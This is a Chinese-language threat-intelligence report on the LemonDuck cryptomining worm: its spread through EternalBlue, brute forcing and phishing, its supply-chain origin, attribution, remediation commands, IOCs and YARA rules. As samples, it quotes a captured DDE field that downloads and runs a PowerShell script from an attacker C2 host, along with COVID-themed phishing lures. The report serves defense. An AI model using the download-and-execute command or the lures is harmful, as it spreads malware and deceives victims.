








# 起底“APT”挖矿组织——“小黄鸭”LemonDuck


[TOC]


## 摘要


近期，我们监测到多起利用钓鱼邮件、漏洞利用传播，进行加密数字货币挖掘的蠕虫攻击活动。

经研究人员分析后将这一系列攻击活动定义为商业化APT行为，我们将这一系列活动背后的组织命名为“小黄鸭”。（[关于命名由来，后文专门提及](#关于命名为啥叫小黄鸭)）

不同于以往发现的同类型攻击，该攻击活动具有以下特征：

*   起源于针对“驱动人生”供应链的APT攻击；
*   持续时间长，从2018年12月份起持续至今；
*   影响范围广泛，波及全球，已有数百万设备被感染；
*   传播途径多样，通过漏洞利用、Outlook邮件、移动存储设备进行传播；
*   利用新冠疫情对邮件攻击模块做针对性升级，以提高感染效率；
*   频繁利用开源项目及新披露漏洞的POC来增强蠕虫感染能力；
*   多样性，迭代/升级的频率远超以往发现的同类型威胁攻击。

与以往大部分APT攻击活动目的为窃取敏感资料、破坏关键设施等不同，“小黄鸭”攻击似乎仅以经济利益为目的：

通过控制计算机、侵占计算资用于加密数字货币的挖掘。

“小黄鸭”最初由针对“驱动人生”发起的APT攻击演变而来，但研究后发现，攻击者可能只是希望利用“驱动人生”作为跳板，使蠕虫尽可能广泛地传播。

攻击者疑似为具有一定专业能力的境外组织，发起或参与过大规模网络攻击相关活动（如构建僵尸网络等）。

至今“小黄鸭”已发展成面向全球，主要针对运行Windows系统的终端设备的有组织、有计划的、以挖矿为目的高级长期威胁组织。

当前在国内仍发现大量个人PC及多家知名企业被感染的情况。

其感染目标已不限于Windows主机，还有一部分运行嵌入式Windows 7系统的IoT设备同样受到波及，智能电视，智能扫描仪，工业AGV等，并在近期新增了针对Linux设备的攻击模块。

受到感染的机器中绝大部分来自于政府与企业。

值得注意的是，“小黄鸭”发动的攻击中上传了十分详尽的系统环境信息，这或为其筛选“特定目标”进行下一步定向攻击而做好了准备。

>    这意味着，“驱动人生”遭受定向攻击同类事件或将重演……

通过对相关情报的关联分析后发现：

国内外多家安全厂商所述的“永恒之蓝”下载器，蓝茶，MTLminer，“驱动⼈⽣”⽆⽂件挖矿，Beapy，LemonDuck，柠檬鸭相关攻击活动，均为“小黄鸭”所为。


## 简要分析


以下是“小黄鸭”整个的攻击链路图：




不同于常规的攻击链路，其攻击链路中：

具有大量的远程恶意文件执行操作，且相互之间具有递归/嵌套执行的特点。

其恶意脚本经过了相当复杂的加密和混淆（这帮助其规避绝大部分的引擎查杀）。



其远程脚本名伪装成一些普通的前端页面后缀（如：PHP，JS，JSP，JSON，PNG...）

不同的感染路径会触发请求不同名称的远程脚本，这起到一个Monitor的作用。

>   存在多个命名不同的攻击脚本，但其内容完全一致的情况。


其攻击链主要通过计划任务，实现在系统中的更新与持久化：

通过创建随机命名的定时任务，每小时从C&C服务器获取代码并执行，来触发远程代码中写入的挖矿与传播操作。

这种计划任务配合远程文件加载执行的方式，使得更新后的远程恶意脚本会在已感染机器再次执行。

攻击者一直在根据攻击链路中反馈给C&C服务器的信息（有关用户帐户，环境信息，权限以及恶意负载执行状况的详细信息），不断地对环节及流程进行调整和优化。

在近两月的监测周期中，已经捕获到数十次攻击链的更新。

其主要传播途径可分为三类：

*   通过漏洞利用传播：

    *   端口扫描
    *   EternalBlue/MS17-010  针对Win7/Win8
    *   CVE-2020-0796  （2020年4月新增）
    *   暴力破解（除自身携带字典外，还会将获取本地口令/凭证加入字典）
        *   $IPC
        *   SMB
        *   MS-SQL
        *   RDP
        *   NTLM
        *   WMI
        *   SSH（2020-06-01新增，针对Linux root账号）

*   利用移动存储设备传播 （CVE-2017-8464）：

    *    通过将恶意DLL与快捷方式（LNK）文件一起植入文件夹中，从而感染可移动USB驱动器和网络驱动器。

         >   当在会解析.lnk快捷方式文件的任何应用程序中打开驱动器时，快捷方式将执行恶意的DLL组件。

*   利用Outlook邮件传播/社会工程学传播：

    *   借助新冠疫情，新增部分与新冠有关邮件主题

    *   随机选取邮件主题及内容，发送给感染主机上的所有Outlook联系人
    *   生成恶意文档（CVE-2017-8570，DDE），恶意JS文件


其先前利用Outlook进行的传播过程中，捕获的样本中邮件主题是唯一的，直接硬编码在脚本中：

```powershell
$mail_subject="The Truth of COVID-19 ????????????"
$mail_body="Virus actually comes from United States of America"
```

而近期一次更新中：

其在利用邮件传播的攻击模块中包含了以下多个邮件主题，随机挑选其中之一（其中已经新增了两个与新冠有关的主题）：

```powershell
$global:mail_pools=@(
# 与新冠关
("The Truth of COVID-19","Virus actually comes from United States of America"),
("COVID-19 nCov Special info WHO","very important infomation for Covid-19see attached document for your action and discretion."),
("HALTH ADVISORY:CORONA VIRUS","the outbreak of CORONA VIRUS is cause of concern especially where forign personal have recently arrived or will be arriving at various intt in near future.see attached document for your action and discretion."),

("WTF","what's wrong with you?are you out of your mind!!!!!"),
("What the fcuk","are you out of your mind!!!!!what 's wrong with you?"),
("good bye","good bye, keep in touch"),
("farewell letter","good bye, keep in touch"),
("broken file","can you help me to fix the file,i can't read it"),
("This is your order?","file is brokened, i can't open it")
)
```

恶意RTF文档打开后的截图，如下所示：




### 攻击起源


“小黄鸭”最早的攻击活动可追溯到2018年11月的一起针对性攻击事件：

**2018年11月12日 10:53分：**

驱动人生的一台运维跳板机出现异常远程登录……（推测应该是之前被僵尸网络感染，而后被针对性持续渗透）

**11月15日 17:17分：**

攻击者通过多层内网渗透，成功获取升级服务器（103.56.77.23 , globalupdate.updrv.com）口令并登录。

**12月 2日至5日：**

用于攻击的域名被注册：

```
haqo.net  2018-12-02T14:35:52Z 
abbny.com 2018-12-03T04:06:07Z 
ackng.com 2018-12-05T06:58:03Z 
```

注册时间段大概是北京时间12点-22点，来自于三个不用的域名供应商。

我们监测到的远程脚本的更新时间范围为10点-20点，这两点表明了攻击者的活动时间范围。

**12月14日 14:15分：**

攻击者利用代理 `84.39.112.58`（📍瑞士）远程登录到升级服务器`103.56.77.23`

备份并修改`ServerConfig.xml`文件，登录SQL数据库后插入其准备好的恶意下载链接

随后于当天约18:00删除

借此，短短不到4个小时的时间内，多达数十万台PC受到感染。

>    按照当时的Meno币价格每10万台僵尸主机，预计每月会为攻击者带来近千美元的收益


值得注意的是，此次攻击显然不是有备而来。

在成功入侵驱动人生升级服务器后，攻击者在受害者内网潜伏了近一个月的时间。

而后才注册相关域名，为“攻击测试”做准备，且在攻击生效后立即恢复了服务器相关设置。

以上行为似乎表露了此次攻击并非有备而来，攻击者当时并未准备好此次大规模蠕虫攻击。

也许是在这次“测试攻击”中，获取了不菲的收益：

攻击者在2018年12月19日，更新恶意程序：新增powershell后门，以做权限维持，及方便后续更新。

此后“小黄鸭”变得一发不可收拾，其攻击活动在本报告截止（2020-06-13）时仍十分活跃，期间已经历了数百次的更新升级（国内外已有多达数十篇与其相关的报告……）


以下是我们近期监测到的“小黄鸭”攻击链部分变动更新状况：

### 近期变动

**2020-04-27:**

​	邮件中包含的RTF文档更新了DDE链接，DDE加载对象由远程文件变为本地文件，这帮助其成功规避掉部分沙箱	检测规则。

​	DDE链接对比如下：

```powershell
 Opening file: readme.doc
 DDE Links:
 DDEAUTO      "     C:\\Programs\\Microsoft\\Office    \\ 12    \\ MSWord\\..\\..\\..\\..\\..\\Windows\\system32\\cmd.exe /c      powershell [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:%tmp%wxJadS9Xyg.sct').Exec(0)&"      "Microsoft Office Remote  Database"
 
 Opening file: urgent.doc
 DDE Links:
 DDEAUTO      "     C:\\Programs\\Microsoft\\Office    \\ 12    \\ MSWord\\..\\..\\..\\..\\..\\Windows\\system32\\cmd.exe /c      powershell IE`x(Ne`w-Obj`ect Net.WebC`lient).DownLoadString('http://t.awcna.com/mail.jsp?dde*%username%*%computername%')&"      "Microsoft Office Remote  Database"
```


**2020-05-19 :**

​	C&C域名`tr2q.com`停止解析 ，新增`zer9g.com`

​	仍可通过IP: `66.42.43.37`访问，由于Hosts文件修改，不会对已经感染的机器产生影响

**2020-05-21：**

​	远程脚本全线更新，Base64编码加密替换为MemoryStream，文件体积变大，分析难度提高，查杀率降低。

​	更新前：




​	更新后：


**2020-06-01:**

​	主要攻击模块`if.bin`中新增了对于Linux SSH爆破功能

​	通过使用PuTTY link工具，即`plink.exe`对局域网内22端口进行root账号字典爆。

​	若SSH爆破成功后，会在目录：`/.Xll/xr `写入挖矿程序，并加入crontab定时执行 。

​	

### 溯源分析


在针对样本中涉及的域名及其解析IP的关联分析中发现：

攻击者对于域名与服务器供应商选择的离散度很高，这增加接管及关停其黑色资产的难度，为攻击活动提供缓冲期，便于其切换和迁移黑色资产。



图中标红的域名为首次测试攻击所使用，且ackng.com一直沿用至今。

其近期活动中偏好的域名注册商为：https://www.epik.com

在样本监测中我们发现：

短时间内多次对同一脚本发起请求，得到同MD5文件但其修改时间具有微小的时间差，

其C&C服务器的背后可能使用了负载均衡相关的机制来保障C&C的正常服务。


我们注意到历史上“小黄鸭”使用的某些C&C域名关联子域名的解析IP:

```powershell
js.haqo.net 81.177.135.35
```

与暗云III v3.0 、Mykings、Mirai、Smominru僵尸网络相关活动有关联。


经过调查发现：

初期“小黄鸭”的攻击模式与Mykings具有一定相似性，这表明“小黄鸭”的攻击模式或受其启发。

而后“小黄鸭”故意了创建部分子域名，将其解析在与Mykings的资产相关联IP地址上，从而混淆安全分析的调查方向。

>    这部分解析在Mykings IP上的子域名无法像其他子域名一样提供正常的C&C服务


我们调查了该组织在初期攻击时使用的各类资产，想从中找出与该攻击活动有关的其他攻击活动：

```
# domain
abbny.com
haqo.net
ackng.com #(该域名沿用至今）

# C&C
45.118.132.44
172.105.237.31
27.102.113.141

# 矿池
172.105.204.237

# Proxy
84.39.112.58
95.211.168.228
```

遗憾的是，攻击者所用资产几乎全部是第一次启用，且供应商各不相同，这使得我们没有取得任何有价值的发现。


通过追溯其不同时期攻击链的变动，我们发现：

各安全厂商所报“永恒之蓝”下载器，蓝茶，MTLminer，“驱动人生”无文件挖矿，Beapy，LemonDuck，柠檬鸭相关攻击活动均为“小黄鸭”所为。

该团伙具备较高的安全水平及快速学习的能力，在首次攻击前应参与或了解过大面积网络攻击相关活动（如：构建僵尸网络）。

更甚者，存在由从事网络安全相关工作的人员，以谋求经济利益为目的，在某些便利环境的诱使下，利用相关行业经验发起的网络攻击的可能。


分析其攻击特征（如爆破字典，社会工程学相关内容），我们注意到：

其攻击链路变动中针对英语语种的网络环境的优化居多，且没有出现针对中国的网络环境作出相应优化，

虽然“小黄鸭”初期在中国爆发，而且攻击成效显著。

但并没有后续并未针对中国的网络环境作出优化（这对于该能力水准的攻击者来说几乎没有门槛）。

这违背了“小黄鸭”攻击活动中所表露的：单纯只为侵占大量计算资源⽤于加密货币挖掘的经济目标。


结合以下历史监测信息来看，攻击不是呈现合理的蔓延趋势，疑似越过非英语国家，直奔欧美……

>   Symantec在2019年4月的分析：
>
>   80％以上的受害者位于中国，其他受害者位于韩国，日本和越南。
>
>   而到2019年10月，据Sophos的披露：
>
>   中国受害者的占比降至24%，新加坡17%，英国达到6%，美国3%，而之前较多的韩日这次占比还在其后。
>
>   


这使得攻击者具有两种可能：

*   境内攻击者，后期有意避开境内环境
*   英语母语攻击者，对英语语种以外的网络环境不熟悉

通过行为/恶意资产/代码风格及命名倾向特征推测其应为使用英语语种的攻击者，所以我们更倾向于第二种可能。


## 关于命名：为啥叫小黄鸭？


在分析中发现：

C&C请求头的唯一出现的Header配置User-Agent使用了比较有意思的前缀`Lemon-Duck`：

```powershell
$Lemon_Duck='MTXDaxu\qWPoOkQu'; #历史版本出现过的变量赋值
$Lemon_Duck='\'; #近期攻击中的赋值

$webclient.Headers.add("User-Agent","Lemon-Duck-"+$Lemon_Duck.replace('\','-'))
# User-Agent: Lemon-Duck--
```

测试中发现User-Agent中值的变化都对于返回的结果无影响（此变量应只是一种信息反馈的字段）。

而创建的计划任务中追踪到几个比较有意思的固定命名，分别在以下不同时期中出现：

"Ddrivers" 2018年12月 

"MicrosoftwindowsBluetooths" 2018年12月 

"Rtsa" 	2019年09月

"bluetool" 2019年11月

"Rtsa1"/"Rtsa2" 2020年2月

"bluetea"  2020年4月

```powershell
# mail.jsp
# report.jsp
# a.sjp
$stsrv.GetFolder("\").GetTask("bluetea")
```

有些报告里将其命名为“蓝茶行动”

在后续中命名变更为“blackball”  2020年5月

```powershell
# mail.jsp
# report.jsp
# a.jsp
$stsrv.GetFolder("\").GetTask("blackball")
```

照这种规范，此次应该叫“黑球”，或者“黑丸”还好听点？（[有厂家在6月3日的报告中，将其命名为“黑球行动”……](https://mp.weixin.qq.com/s/QEE95HTKzuT4-NykfvHfGQ)）


所以用Lemon-Duck更具有代表性一些：

”Lemon-Duck“意译为中文应为：“小黄鸭”


尝试挖掘下特征变量名背后的意义：

bluetea：

蝶豆花（Butterfly Pea Tea）也称为蓝花蝶、蓝花豆、蝴蝶花豆等名称，而北美人通常称蝶豆花茶为Blue Matcha 或Blue Chai, 也有人直接称之为Blue Tea。


blackball：

“黑丸”？

发现台湾有家奶茶连锁叫作blackball，珍珠奶茶里的珍珠？


有点受到启示：

这两种玩意都可以作为奶茶的原料，难道说此攻击源自与奶茶🥛爱好者？


## 检测方案

* 可根据后续列出的IOCs信息对相关主机进行排查；

* 查看相关主机CPU是否运行有异常，比如CPU占用过高；

* 查看内网主机及相关端口如445、1433、3389、65529、65533等端口是否开启且有过被扫描或暴力破解行为；

* 检测相关主机是否存在CVE-2017-8570及MS17-010高危漏洞；

* 追查同样本邮件相关的邮箱地址，在其接收邮件主机同网域内进行全面检测扫描；

## 修复建议

使用管理员权限打开Poweshell输入以下命令：

去除已写入的网络规则：

```powershell
netsh advfirewall firewall delete rule name="SDNSd"
netsh advfirewall firewall delete rule name="DNSd"
netsh interface portproxy delete v4tov4 listenport=65529
netsh interface portproxy delete v4tov4 listenport=65533

# 如果需要提供SMB服务则不用执行以下命令
netsh advfirewall firewall delete rule name="deny445"
netsh advfirewall firewall delete rule name="deny445"
```

查看定时任务：

```powershell
function Get-AllTaskSubFolders {
    [cmdletbinding()]
    param (
        $FolderRef = $Schedule.getfolder("\")
    )
    if ($FolderRef.Path -eq '\') {
        $FolderRef
    }
    if (-not $RootFolder) {
        $ArrFolders = @()
        if(($folders = $folderRef.getfolders(1))) {
            $folders | ForEach-Object {
                $ArrFolders += $_
                if($_.getfolders(1)) {
                    Get-AllTaskSubFolders -FolderRef $_
                }
            }
        }
        $ArrFolders
    }
}

$Schedule = New-Object ComObject ("Schedule.Service");
$Schedule.connect($env:COMPUTERNAME);

foreach ($Folder in Get-AllTaskSubFolders) {
    if (($Tasks = $Folder.GetTasks(1))) {
        $Tasks | Foreach-Object {
            if (($_.State -gt 1)) {
                New-Object -TypeName PSCustomObject -Property @{
                            'Name' = $_.name
                            'State' = switch ($_.State) {
                                0 {'Unknown'}
                                1 {'Disabled'}
                                2 {'Queued'}
                                3 {'Ready'}
                                4 {'Running'}
                                Default {'Unknown'}
                            }
                            'Path' = $_.path
                }
            }
        }
    }
}
```

查看是否具有明显随机的任务名，然后根据路径删除：

```powershell
schtasks /delete /tn PATH /F
```


*  如发现中招主机，应立即切断网络，关闭445端口服务，进行全面查杀；

*  对CVE-2017-8570，MS17-010，CVE-2020-0796相关漏洞及时打补丁：

    *  CVE-2017-8570补丁信息参考：https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8570; 
*  MS17-010补丁信息参考：https://support.microsoft.com/zh-cn/help/4012598/title
    *  CVE-2020-0796信息参考：https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796


## 防范建议

*   停止使用Win7（20201月14日后微软已停止对其维护）

*   及时对内网主机打补丁；

*   加强系统安全性。身份验证和加密机制有助于防止对目标系统进行未经授权的修改，使用高强度密码，并定期更新，不要使用弱口令；

*   多台设备不要使用相同密码，蠕虫会抓取本机密码，攻击局域网中的其它机器；

*   关闭主机不必要的端口（如445，65529等），并使用严格的权限控制；

*   部署其他安全机制，例如行为监视，以检测并防止异常例程或未授权程序或脚本的运行。企业内IDS/IPS防护设备根据后续列出的Yara检测规则进行更新；

*   禁用PowerShell，因为普通用户和非技术用户都不需要：

    使用管理员权限打开Powershell，输入以下命令，然后回车

    ```powershell
    Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
    ```


*   阻止从Office文档中嵌入或链接的COM对象，请执行以下步骤：

    ```powershell
    reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{F20DA720-C02F-11CE-927B-0800095AE340}" /v "Compatibility Flags" /t REG_DWORD /d 0x400
    reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{F20DA720-C02F-11CE-927B-0800095AE340}" /v "ActivationFilterOverride" /t REG_DWORD /d 0x1
    
    reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Office\Common\COM Compatibility\{F20DA720-C02F-11CE-927B-0800095AE340}" /v "Compatibility Flags" /t REG_DWORD /d 0x400
    reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Office\Common\COM Compatibility\{F20DA720-C02F-11CE-927B-0800095AE340}" /v "ActivationFilterOverride" /t REG_DWORD /d 0x1
    ```

*   禁用SMB的压缩功能：

    ```powershell
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
    ```

    


## IOCs

以下是有关该APT活动的相关IoCs:

### Domain：

C&C:

```
abbny.com
p.abbny.com
info.abbny.com

haqo.net
i.haqo.net
info.haqo.net

beahh.com
v.beahh.com
w.beahh.com
p.beahh.com
d.beahh.com
oom.beahh.com
info.beahh.com

minicen.ga
img.minicen.ga
t.minicen.ga


y6h.net
v.y6h.net

zer2.com
lpp.zer2.com
t.zer2.com

awcna.com   (2020-04-21停止解析)
t.awcna.com

tr2q.com
t.tr2q.com  (2020-05-20停止解析)

amynx.com   (未启用)
t.amynx.com (未启用) （2020-05-26发现启用）

zer9g.com
t.zer9g.com  (2020-05-21新增,取代t.tr2q.com)

zz3r0.com    
t.zz3r0.com  (2020-05-25新增,取代t.awcna.com）)


jdjdcjq.top
t.jdjdcjq.top (2020-06-01新增，用于Linux)
```

Miner Pools & Payload Server：

```shell
# 矿池地址
lpp.zer2.com
lp.haqo.net
lpp.awcna.com
lplp.haqo.net
lplp.beahh.com
lplp.abbny.com
lplp.ackng.com

p.k3qh4.com
p.b69kq.com

# Payload存放
d.ackng.com 
info.ackng.com
down.ackng.com

haqo.net
dl.haqo.net
```

### IP:

```powershell
66.42.43.37
172.104.7.85

207.154.225.82
128.199.183.160

206.189.144.115
138.68.30.50

128.199.64.236

161.35.107.193

167.71.87.85
45.79.77.20

# proxy
84.39.112.58
95.211.168.228
```

### MD5:

由于

```
98bf04d3d6e25c0cac4ac6af604bcdbf 
779c89b9404bdd69547c28885167f131
d0b03daf3c84987768bd4ce8e2a77548
51f6eba99e2b33e5458d78e41a130fe2
db50d9392ea9dd0efceb2364f0e2f187
5d4d94ee7e06bbb0af9584119797b23a
f3b25701fe362ec84616a93a45ce9998
df5c8f7677a3361d17cc1ba820436ce9
```

### Ports:

```
43668
65529
65533
```

### File:

```shell
# Windows
$env:tmp\GkwiGedjuq8391j.txt
$env:tmpGkPiGedjuq8f91j.txt
$env:tmp\godmali3.txt
$env:tmp\kk4kk.log
$env:tmp\nvdg.dat
$env:temp\tt.vbs
# Linux 
/.Xll/xr
# Driver
DRIVE:\UTFsync\\inf_data
```


### Yara:

CVE-2017-8570攻击文件 YARA检测规则：

```yacas
rule rtf_composite_moniker {
   meta:
      ref = "https://justhaifei1.blogspot.co.uk/2017/07/bypassing-microsofts-cve-2017-0199-patch.html"
   strings:
      $header_rtf = "{\\rt" nocase
      $composite_moniker = "0903000000000000C000000000000046" nocase
      $new_moniker = "C6AFABEC197FD211978E0000F8757E2A" nocase
   condition:
      $header_rtf at 0 and $composite_moniker and $new_moniker
}
```

DDE 文件 YARA检测规则：

```yacas
// YARA rules Office DDE
// NVISO 2017/10/10 - 2017/10/12
// https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
 
rule Office_DDEAUTO_field {
  strings:
    $a = /<w:fldChar\s+?w:fldCharType="begin"\/>.+?\b[Dd][Dd][Ee][Aa][Uu][Tt][Oo]\b.+?<w:fldChar\s+?w:fldCharType="end"\/>/
  condition:
    $a
}
